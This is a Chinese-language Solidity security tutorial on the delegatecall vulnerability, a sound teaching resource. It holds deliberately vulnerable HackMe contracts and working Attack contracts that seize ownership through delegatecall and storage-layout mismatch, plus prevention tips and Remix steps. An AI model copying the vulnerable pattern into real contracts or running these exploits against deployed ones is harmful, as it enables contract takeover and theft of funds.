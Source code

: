 # 70.delegatecall
## 漏洞
delegatecall的使用很棘手，错误的使用或不正确的理解可能会导致灾难性的结果。
在使用delegatecall时，您必须记住两件事：
1. delegatecall保留上下文（存储，调用者等...）
2. 调用delegatecall的合约和被调用的合约的存储布局必须相同。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
HackMe是一个使用delegatecall执行代码的合约。由于HackMe内部没有更改所有者的功能，因此更改所有者并不明显。但攻击者可以通过利用delegatecall来劫持合约。让我们看看如何实现。

1. Alice部署了Lib。
2. Alice使用Lib的地址部署了HackMe。
3. Eve使用HackMe的地址部署了Attack。
4. Eve调用Attack.attack()。
5. 现在Attack是HackMe的所有者。

发生了什么？

Eve调用了Attack.attack()。
Attack调用了HackMe的fallback函数，并发送了pwn()函数的函数选择器。
HackMe使用delegatecall将调用转发到Lib。
在这里，msg.data包含pwn()函数的函数选择器。
这告诉Solidity在Lib内部调用函数pwn()。
函数pwn()将所有者更新为msg.sender。
Delegatecall使用HackMe的上下文运行Lib的代码。
因此，HackMe的存储被更新为msg.sender，其中msg.sender是HackMe的调用者，即Attack。
*/

contract Lib {
    address public owner;

    function pwn() public {
        owner = msg.sender;
    }
}

contract HackMe {
    address public owner;
    Lib public lib;

    constructor(Lib _lib) {
        owner = msg.sender;
        lib = Lib(_lib);
    }

    fallback() external payable {
        address(lib).delegatecall(msg.data);
    }
}

contract Attack {
    address public hackMe;

    constructor(address _hackMe) {
        hackMe = _hackMe;
    }

    function attack() public {
        hackMe.call(abi.encodeWithSignature("pwn()"));
    }
}
```
这是另一个例子。
在你理解这个漏洞之前，你需要了解Solidity如何存储状态变量。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
这是前一个漏洞的更复杂版本。

1. Alice部署Lib和HackMe，并将Lib的地址传递给它们
2. Eve部署Attack并将HackMe的地址传递给它
3. Eve调用Attack.attack()
4. 现在Attack是HackMe的所有者

发生了什么？
请注意，Lib和HackMe中的状态变量没有以相同的方式定义。这意味着调用Lib.doSomething()将更改HackMe内的第一个状态变量，该变量恰好是lib的地址。

在attack()函数内，第一次调用doSomething()会更改存储在HackMe中的lib地址。现在，lib的地址被设置为Attack。

第二次调用doSomething()会调用Attack.doSomething()，在这里我们更改了所有者。
*/

contract Lib {
    uint public someNumber;

    function doSomething(uint _num) public {
        someNumber = _num;
    }
}

contract HackMe {
    address public lib;
    address public owner;
    uint public someNumber;

    constructor(address _lib) {
        lib = _lib;
        owner = msg.sender;
    }

    function doSomething(uint _num) public {
        lib.delegatecall(abi.encodeWithSignature("doSomething(uint256)", _num));
    }
}

contract Attack {
    // 确保存储布局与HackMe相同
    // 这将使我们能够正确地更新状态变量。
    address public lib;
    address public owner;
    uint public someNumber;

    HackMe public hackMe;

    constructor(HackMe _hackMe) {
        hackMe = HackMe(_hackMe);
    }

    function attack() public {
        // 覆盖lib的地址
        hackMe.doSomething(uint(uint160(address(this))));
        // 如果将任何数字作为输入传递，下面的函数doSomething()将被调用。
        hackMe.doSomething(1);
    }

    // 函数签名必须与HackMe.doSomething()匹配。
    function doSomething(uint _num) public {
        owner = msg.sender;
    }
}
```
### 预防性技术
* 使用无状态库
* 为了避免这种漏洞，开发人员应该避免在智能合约中使用delegatecall，并始终使用call或send来调用其他合约的函数。此外，开发人员还应该谨慎处理来自外部合约的数据，并使用安全的输入验证和过滤机制来防止攻击者利用漏洞。
  
## remix验证
1. 部署合约Lib和HackMe以及Attack，在Attack合约中调用attack（）函数，Hackme合约owner被修改为Attack地址。
![70-1.png](./img/70-1.png)
2. 部署合约Lib和HackMe以及Attack，在Attack合约中调用attack（）函数，Hackme合约owner被修改为Attack地址。在attack()函数内，第一次调用doSomething()会更改存储在HackMe中的lib地址。现在，lib的地址被设置为Attack，第二次调用doSomething()会调用Attack.doSomething()，owner被修改。
![70-2.png](./img/70-2.png)
